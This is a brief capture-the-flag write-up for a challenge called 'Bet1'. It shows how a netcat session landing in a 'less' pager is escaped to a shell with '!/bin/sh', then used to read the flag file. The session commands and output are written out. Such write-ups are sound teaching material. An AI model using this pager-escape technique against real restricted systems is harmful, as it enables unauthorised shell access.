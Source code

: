 
# Bet1
Upon connection to the server and typing in some random characters, you will get the output for the "less" help:

     SUMMARY OF LESS COMMANDS

      Commands marked with * may be preceded by a number, N.
      Notes in parentheses indicate the behavior if N is given.
      A key preceded by a caret indicates the Ctrl key; thus ^K is ctrl-K.
      ...
This means that your netcat session is piped to an open `less` process on the other end. Getting to a shell from less is fairly easy, and is fairly common when you need to escape restrictive shells such as rbash. I recommend reading more about escaping from restrictive shells, it's pretty interesting to see how many binaries can open a shell.

To get to a shell, we can simply enter `!/bin/sh` upon connecting:

    root@beer:~/crypto# nc ctf.safebreach.com 31337
	!/bin/sh
	WARNING: terminal is not fully functional
	/bin/sh: can't access tty; job control turned off
	/pwn $ cat flag
	cat flag
	CTF{520e4e6dab8e5c3a1a6b61f6ef7e9352}


